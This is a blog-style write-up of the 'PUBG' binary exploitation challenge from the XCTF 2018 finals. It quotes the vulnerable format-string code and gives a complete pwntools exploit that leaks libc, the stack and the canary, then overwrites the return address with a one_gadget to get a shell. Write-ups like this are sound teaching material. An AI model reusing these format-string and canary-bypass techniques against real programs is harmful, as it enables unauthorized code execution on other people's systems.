```yaml
---
title: 'XCTF-final-2018:PUBG'
date: 2018-11-08 11:42:26
tags:
---
```

Interesting game
<!--more-->
# File
[PUBG][1]
# PUBG
* PICK A GUN first
* AND you have two choise : gang or gou
* gou :
    you may find AWM
* gang :
    if you dont have AWM you will die
* IF you win you can leak something and you can overflow to control the RIP
* so enjoy the game
# Entry point
*  you can leak libc by 
```python
  for ( j = 0; j <= 3; ++j )
  {
    if ( s[j] != buf[j] )
    {
      printf(s);#formatstr
      puts(" has no airdrop");
      return __readfsqword(0x28u) ^ v4;
    }
  }
```
* Luckily you can leak j .so you can burp the position of airdrop
* so you will get the AWM
* and use the only chance to leak  canary
* so go to control EIP

# EXP
```python
from pwn import *
def cmd(c):
	p.readuntil("> ")
	p.sendline(str(c))
def airdrop(c):
	cmd(2)
	p.readuntil("position:")
	p.send(c)

#context.log_level="debug"
p=process("./pubg")
p=remote("127.0.0.1",1025)
cmd(1)
cmd(1)
airdrop("%p%p%p%p\n")
p.readuntil("0x25")
base=int(p.readline(),16)-0x5cd700+0x7fd980588000-0x7fd98058d000
log.warning("Libc:%s",hex(base))
airdrop("%a%a%a%a%a")
p.readuntil("ap-10220x0.0")
stack=int("0x"+p.read(11)+"0",16)
log.info("stack:%s",hex(stack))


res=""
for x in range(3):
	for y in range(1,256):
		if (chr(y)!='n' and chr(y)!='$' and chr(y)!='*' and chr(y)!='|'):

			airdrop(res+"{}%p|%p\n".format(chr(y).ljust(3-x,'\x01')))
			p.readuntil("|")
			data=p.readline()
			if data=="(nil)\n":
				data=0
			else :
				data=int(data,16)
			if (data==x+1):
				res+=chr(y)
				break
			else:
				continue
airdrop(res)
cmd(1)
p.readuntil("chicken:\n")
canary_add=(0x7ffe2c5822c8-0x7ffe2c5823d0)+stack

p.sendline(str(canary_add+1))
sleep(0.1)
p.readuntil("The ")
data="\x00"+p.read(7)
canary=u64(data.ljust(8,'\x00'))
log.info("Cnary:%s",hex(canary))
p.readuntil("~\n")
off=0x20
one=base+0x45216
p.send("\x00"*off+p64(canary)*3+p64(one)+"\n")
p.interactive()
```

# review 
Is a interesting game
There are lots of little trick in this challenge.


[1]:https://github.com/n132/Watermalon/tree/master/XCTF_FINAL_2018/pubg